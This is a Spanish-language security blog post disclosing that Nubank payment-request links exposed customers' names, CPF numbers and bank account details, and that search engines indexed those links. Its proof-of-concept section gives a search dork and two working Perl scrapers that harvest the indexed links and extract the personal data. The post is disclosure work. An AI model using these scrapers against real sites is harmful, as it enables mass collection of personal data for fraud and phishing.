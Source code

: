 ```yaml
---
layout: content
title: 'Un pequeño caso de scraping de datos personales expuestos en la web'
description: 'Durante la realización de una investigación de seguridad en aplicaciones móviles, se identificó una funcionalidad en la aplicación de Nubank que permite la creación y el envío de "links de cobro" a múltiples destinatarios. Se descubrió una vulnerabilidad en esta funcionalidad que permitió mapear datos personales, como CPF, nombre completo, número y agencia de la cuenta de varios clientes.'
og_image: https://heitorgouvea.me/images/publications/nubank-scraping/google-dorks.png
---
```


Tabla de contenido:
- [Resumen](#resumen)
- [Descripción](#descricion)
- [Prueba de concepto](#prueba-de-concepto)
- [Impacto](#impacto)
- [Conclusión](#conclusión)
- [Referencias](#referencias)

### Resumen

Durante una investigación de seguridad en aplicaciones móviles, se identificó una funcionalidad en la aplicación de Nubank que permite la creación y el envío de "links de cobro" a múltiples destinatarios. Se descubrió una vulnerabilidad en esta funcionalidad que permitió mapear datos personales como CPF, nombre completo, número y agencia de la cuenta bancaria de varios clientes.

DISCLAIMER: La empresa responsable fue notificada de todos los detalles de esta investigación en el menor tiempo posible y respondió de manera ética y transparente, demostrando atención y compromiso con la seguridad de la funcionalidad. Durante las pruebas realizadas, no se produjo ninguna invasión ni violación de sistemas. Además, la empresa implementó algunas medidas correctivas para reducir los riesgos potenciales asociados al problema reportado. Se proporcionaron recomendaciones adicionales para mitigar la vulnerabilidad, pero la empresa optó por no implementarlas en su totalidad.

Esta publicación también está disponible en: [Portugués](/2020/06/23/Scraping-dados-pessoais-na-web) e [Inglés](/2020/06/23/Scraping-personal-data-exposure-in-the-web).

---

### Descripción

Dentro de la aplicación de Nubank, existe una funcionalidad llamada "Cobrar", cuyo funcionamiento consiste en: 
1. ingresar un valor si se desea;
2. hacer clic en confirmar; 
3. se genera un código QR, con la opción de compartirlo o enviarlo a través de otra aplicación, como WhatsApp:

![](/images/publications/nubank-scraping/creating-a-link.png)

![](/images/publications/nubank-scraping/whatsapp-shared-link.png)

El contenido del código QR es el mismo enlace que puede compartirse mediante aplicaciones de mensajería. Al abrir el enlace se abre en el navegador, se obtiene el siguiente resultado:

![](/images/publications/nubank-scraping/personal-infos.png)

Se exponen, sin ningún tipo de control, algunos datos del usuario que generó el enlace, como: nombre completo, CPF, número de cuenta bancaria y agencia. El único requisito para acceder a esta información sensible[1] es poseer la URL correspondiente.

La URL en cuestión es generada exclusivamente por el cliente en su aplicación, y también es responsabilidad del cliente decidir cómo y con quién compartir cada enlace.

Sin embargo, estas URLs son indexadas por motores de búsqueda, lo que permite el uso de dorks[2] para identificar más enlaces relacionados con este servicio.

Ejemplo de dork para restringir la búsqueda al sitio principal de Nubank, donde las URLs contengan el patrón "/pagar/" y se excluyan los resultados del blog:

```text
site:nubank.com.br inurl:/pagar/ -blog
```

Resultado:

![](/images/publications/nubank-scraping/google-dorks.png)

Además, se observó que algunos usuarios publicaban estas URLs en otros canales, como Twitter. Un uso común de esta funcionalidad es la recepción de donaciones.

![](/images/publications/nubank-scraping/twitter-links.png)

---

### Prueba de concepto

Para demostrar el impacto del abuso de esta funcionalidad, se creó una prueba de concepto. La primera parte de esta PoC consistió en construir un código capaz de utilizar un motor de búsqueda para recolectar la mayor cantidad posible de URLs. Se desarrolló un scraper[3] utilizando Bing:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw(url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        $dork = url_escape($dork);

        my %seen  = ();
        my $mech = WWW::Mechanize -> new();

        $mech -> ssl_opts (verify_hostname => 0);

        for my $page (0 .. 10) {
            my $url = "https://wwww.bing.com/search?q=${dork}&first=${page}0";

            $mech -> get($url);

            my @links = $mech -> links();

            foreach my $link (@links) {
                $url = $link -> url();

                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

exit main();
```

Con este código, se recolectaron 100 URLs válidas — este número fue limitado intencionalmente con fines demostrativos, pero podría haber sido mucho mayor:

![](/images/publications/nubank-scraping/file-with-the-urls.png)

Después de recolectar las URLs en un archivo `.txt`, se desarrolló otro scraper para extraer los datos desde las páginas de Nubank:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

binmode(STDOUT, ":encoding(UTF-8)");

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        my $userAgent = Mojo::UserAgent -> new (
            agent => "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)"
        );
        
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp ($_);
            
            my $request = $userAgent -> get($_) -> result();

            if ($request -> is_success()) {
                my $account = $request -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close ($urls_filehandle);
    }
}

exit main();
```

Y el resultado obtenido:

![](/images/publications/nubank-scraping/collect-with-names-cpfs.png)

CPF, nombre completo, número de cuenta y agencia de 100 personas, recolectados en cuestión de minutos y con pocas líneas de código.

### Impacto

La posibilidad de que un atacante abuse de esta funcionalidad disponible en los sistemas de Nubank es alta debido a la facilidad de explotación. Esto puede exponer a muchos usuarios, filtrando información sensible como se ilustró anteriormente. Además, un atacante con estos datos en mano podría usarlos para desarrollar estrategias de ingeniería social altamente dirigidas.

### Conclusión

A través de este análisis, es posible afirmar que un agente malicioso podría implementar scrapers para mapear las URLs de cobro de Nubank y, posteriormente, recolectar la información personal presente en ellas. Este artículo presentó una PoC como una posible implementación utilizando un motor de búsqueda, pero aún existen otros canales como redes sociales (Twitter, Facebook, entre otros). Este escenario podría utilizarse para convertir a los clientes de Nubank en víctimas de ataques de spear phishing o ingeniería social.

---

### Referencias

- [1] [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
- [2] [https://en.wikipedia.org/wiki/Google_hacking](https://en.wikipedia.org/wiki/Google_hacking)
- [3] [https://en.wikipedia.org/wiki/Web_scraping](https://en.wikipedia.org/wiki/Web_scraping)
